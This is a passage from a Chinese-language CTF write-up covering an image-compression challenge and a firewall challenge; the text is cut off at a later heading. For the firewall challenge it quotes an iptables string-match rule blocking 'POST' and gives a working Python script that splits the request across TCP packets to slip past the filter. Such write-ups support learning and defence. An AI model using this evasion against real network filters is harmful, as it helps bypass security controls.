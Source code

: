 ## 🪐 低带宽星球

### 小试牛刀

> 压缩至 2KiB (2048 字节) 及以下，获得 flag1

什么？图片压缩？还得看我 VP9 / AV1 压缩！直接上 WebP 压缩

```shell
ffmpeg -i /home/ricky/Downloads/image.png -lossless 1 /home/ricky/Downloads/image.webp
```

压缩出来 170B，完事！

### 极致压缩

这题没解出来x

> 压缩至 50 字节及以下，获得 flag2

看到这个，我还在尝试 VP9 / AV1 压缩加上各种优化参数，但始终无法实现 50 bytes 以下（甚至还幻想转换成 SVG，但实际更大了）

实际上过程中还搜索到了 JPEG XL 这个东西，但是脑子里想着 JPEG 是什么古老的东西，肯定不是他（然后看官方题解后：草！）

## 💻 Komm, süsser Flagge

### 我的 POST

首先看到第一条规则

```shell
-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset
```

可以看到是通过匹配**包**里是否存在 `POST` 来过滤包。

所以重点在于让 POST 这串东西强制分包传输，虽然说想过通过降低 MTU 和 MSS 来控制分包，但发现毫无成果。

然后我在猜想能不能直接通过 `socket.send` 分开两次发来实现分包，然后实践了一下确实可以。

```python
import socket
import time

addr, port = input("input the host (addr:port): ").split(":")
token = input("input your token: ")
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((addr, int(port)))
client.send(b"P")
time.sleep(1)
client.send(b"OST / HTTP/1.1\r\nHost: example.com\r\nContent-Length: " + str(len(token)).encode() + b"\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n" + token.encode() + b"\r\n\r\n")
print(client.recv(4096))
```

### 我的 P
